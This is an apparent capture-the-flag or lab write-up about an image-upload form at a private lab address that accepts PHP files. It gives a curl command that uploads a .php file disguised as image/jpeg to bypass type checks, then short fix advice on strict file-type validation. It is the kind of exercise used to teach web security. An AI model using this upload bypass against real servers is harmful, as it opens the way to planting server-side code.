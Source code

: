 # 08-Add_Image_Upload

The upload field can take php file types

# The approach

1.Go to http://192.168.101.204/?page=upload  
2.Test and upload different types of files and you will notice it accepts other files types apart from just JPG.

# The Exploit #

we use Curl to run our script.sh 
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@empty.php;type=image/jpeg' http://192.168.101.204/index.php\?page\=upload\#


## The solution
- Use strict types when uploading files. Validate file type 
- validate user inputs from back end before proceeding.

